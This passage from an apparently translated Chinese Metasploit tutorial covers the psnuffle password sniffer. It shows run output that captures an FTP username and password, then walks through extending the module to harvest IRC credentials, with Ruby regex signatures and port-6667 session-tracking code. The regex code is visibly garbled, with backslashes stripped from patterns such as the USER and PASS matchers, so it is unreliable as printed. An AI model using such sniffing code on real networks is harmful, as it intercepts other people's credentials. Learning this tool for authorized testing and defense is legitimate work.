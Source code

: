 这个工具有很多选项，包括导入一个pcap包文件。使用run命令可以激活这个工具：
```shell

msf auxiliary(psnuffle) > run
[*] Auxiliary module execution completed
[*] Loaded protocol FTP from /usr/share/metasploit-framework/data/exploits/psnuffle/ftp.rb...
[*] Loaded protocol IMAP from /usr/share/metasploit-framework/data/exploits/psnuffle/imap.rb...
[*] Loaded protocol POP3 from /usr/share/metasploit-framework/data/exploits/psnuffle/pop3.rb...
[*] Loaded protocol URL from /usr/share/metasploit-framework/data/exploits/psnuffle/url.rb...
[*] Sniffing traffic.....
[*] Successful FTP Login: 192.168.1.100:21-192.168.1.5:48614 >> victim / pass (220 3Com 3CDaemon FTP Server Version 2.0)
```

上面的例子中展示了成功获取某个FTP主机密码的例子。
### 扩展 psnuffle 工具

psnuffle很容易扩展，以监听更多协议里的密码传输。本节将介绍一个例子：IRC(互联网聊天)协议监听的开发过程。

#### 存放位置
psnuffle各个模块都位于MSF安装目录的data/exploits/psnuffle目录下。不同的协议有不同目录名。我们先看一下POP3 sniffer模块的关键内容：

```ruby
self.sigs = {
:ok => /^(+OK[^n]*)n/si,
:err => /^(-ERR[^n]*)n/si,
:user => /^USERs+([^n]+)n/si,
:pass => /^PASSs+([^n]+)n/si,
:quit => /^(QUITs*[^n]*)n/si }
```
上面的代码定义了用于监听过程中识别敏感信息的表达式模式。它们都是正则表达式。

#### 定义自己的psnuffle模块
对于IRC通信协议，假设存在一些字符，我们可以使用下列代码识别它们。

```ruby
self.sigs = {
:user => /^(NICKs+[^n]+)/si,
:pass => /b(IDENTIFYs+[^n]+)/si,}
```

#### 会话识别

对于每个模块，我们首先需要定义它使用的端口和会话如何被跟踪。

```ruby
return if not pkt[:tcp] # We don't want to handle anything other than tcp
return if (pkt[:tcp].src_port != 6667 and pkt[:tcp].dst_port != 6667) # Process only packet on port 6667

#Ensure that the session hash stays the same for both way of communication
if (pkt[:tcp].dst_port == 6667) # When packet is sent to server
s = find_session("#{pkt[:ip].dst_ip}:#{pkt[:tcp].dst_port}-#{pkt[:ip].src_ip}:#{pkt[:tcp].src_port}")
else # When packet is coming from the server
s = find_session("#{pkt[:ip].src_ip}:#{pkt[:tcp].src_port}-#{pkt[:ip].dst_ip}:#{pkt[:tcp].dst_port}")
end
```

